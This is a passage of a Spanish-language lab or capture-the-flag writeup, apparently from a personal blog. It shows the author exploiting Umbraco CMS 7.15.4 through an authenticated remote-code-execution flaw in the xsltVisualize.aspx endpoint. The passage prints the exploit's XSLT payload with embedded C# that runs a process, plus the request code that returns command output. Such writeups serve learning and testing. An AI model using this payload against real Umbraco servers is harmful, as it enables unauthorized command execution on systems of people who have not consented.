 ...

* [Rabbit hole Umbraco](#umbraco-rabbit-hole).
* [Access with RDP](#access-with-rdp).

...

### ▿ Rabbit hole (`Umbraco exploitation`) {#umbraco-rabbit-hole}

> Que me gusto, aunque hubiera sido un rabbit hole :P

Recorriendo la página, podemos encontrar la versión del software, en este caso: `Umbraco versión 7.15.4`. Buscando exploits sobre esa versión encontramos uno con el que ya había estado jugando en una máquina de `HackTheBox`, concretamente en `Remote` (de la cual [tengo un writeup](https://lanzt.github.io/blog/htb/HackTheBox-Remote), el cual me sirvió para guiarme sobre como conseguir una reverse Shell).

(La mayoría de referencias las reutilizaré de ese writeup, solo pa decirlo :P)

* [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153).

Bien, descargándolo y viendo el código, debemos modificar algunas líneas, tales como:

* login: el usuario (email).
* password: pues la password :P
* host: donde está alojado el CMS `Umbraco` (IP de la máquina).

El proceso de explotación se da por la falta de sanitizacion de la variable `ctl00$body$xsltSelection` del archivo `/umbraco/developer/Xslt/xsltVisualize.aspx`. En el que podemos enviar nuestro payload sin ningún problema.

El payload que usa el exploit es este:

```py
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \\
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \\
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \\
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \\
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \\
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\\
 </xsl:template> </xsl:stylesheet> ';
```

Como prueba de concepto, abre una calculadora, pero nosotros no queremos eso, intentemos ejecutar el comando `whoami`:

(Algo importante es que al final debemos indicarle que nos muestre la respuesta del request)

```py
# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print(r4.text)
```
